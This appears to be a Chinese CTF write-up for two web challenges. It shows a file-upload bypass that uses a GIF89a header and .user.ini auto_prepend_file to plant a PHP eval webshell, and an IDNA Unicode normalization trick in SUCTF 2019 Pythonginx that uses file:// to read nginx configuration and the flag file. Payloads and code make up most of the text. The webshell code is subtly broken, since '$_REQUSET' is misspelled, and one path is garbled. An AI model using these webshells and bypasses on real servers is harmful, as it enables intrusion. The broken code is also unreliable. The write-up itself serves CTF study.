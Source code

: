 ## 0x01 Checkin

00 0a后缀无法绕过。

文件头监测使用GIF89a

内容过滤<?使用类脚本语法写入php代码

文件夹下有index.php，提示利用``.user.ini``写图片马

```
GIF89a
auto_prepend_file=233.gif
```

```
GIF89a
<script language="php"> 
@eval($_REQUSET['eki']);
</script>
```

用蚁剑连上，或者直接写system("cat \flag")

### 参考资料

user.ini文件构成的PHP后门

[https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)

## 0x09 [SUCTF 2019]Pythonginx

```python
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

这里利用的是"idna"编码解码的问题

```
suctf.c℆ -> suctf.cc/u
```

利用file://协议读文件，提示了nginx

```
配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
```

```
file://suctf.c℆sr/local/nginx/conf/nginx.conf
->
server { listen 80; location / { try_files $uri @app; } location @app { include uwsgi_params; uwsgi_pass unix:///tmp/uwsgi.sock; } location /static { alias /app/static; } # location /flag { # alias /usr/fffffflag; # } }

file://suctf.c℆sr/fffffflag
```



### 参考资料

nginx重要目录：

[https://www.jianshu.com/p/e64539590865](https://www.jianshu.com/p/e64539590865)

Unicode vulnerabilities:

[https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)